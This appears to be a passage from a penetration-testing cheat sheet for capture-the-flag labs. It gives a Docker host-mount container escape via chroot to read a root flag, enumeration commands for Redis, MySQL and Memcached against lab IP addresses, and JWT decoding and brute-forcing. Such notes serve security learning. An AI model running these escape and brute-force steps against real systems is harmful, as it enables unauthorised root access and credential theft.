 1. Check for docker.socket
2. Check for any docker images `docker images`
   1. Run docker image with shared space `docker run -it -v /:/host ubuntu:18.04 bash`
   2. Check capabilities `capsh --print`
      1. Find SYS_ADMIN capability
      2. `cd host`
      3. `chroot ./ bash`
      4. Get the flag `cat root/flag.txt`

# Redis <a name="redis"></a>

## Basic commands

- Nmap scan: `nmap -p 6379 --script redis-info 10.10.30.12`
- Connect to redis: `redis-cli -h 10.10.30.12`
- Get all keys: `KEYS *`
- Get value of key: `get key`
- Get value of key list: `LRANGE key 0 -1`
- Get value of key set: `SMEMBERS key`
-

# MySQL <a name="mysql"></a>

## Basic commands

- Connect to MySQL: `mysql -h 10.10.19.12 -u root`
- Show databases: `show databases`
- Show tables: `show tables`

# Memcached <a name="memcached"></a>

## Basic commands

- `telnet localhost 11211` <-- open memcached telnet
  - `stats` <-- show stats
  - `stats slabs` <-- show slabs
  - `stats items` <-- show items
  - `stats settings` <-- show settings
  - `lru_crawler metadump all` <-- dump metadata

# JWT-Pwn <a name="jwt"></a>

- Decode middle of JWT: `echo JWT | base64 -d | cut -d. -f2`
- Brute-force JWT: `jwtcat.py -t jwttoken -w wordlist -v`

# Forensic <a name="forensic"></a>
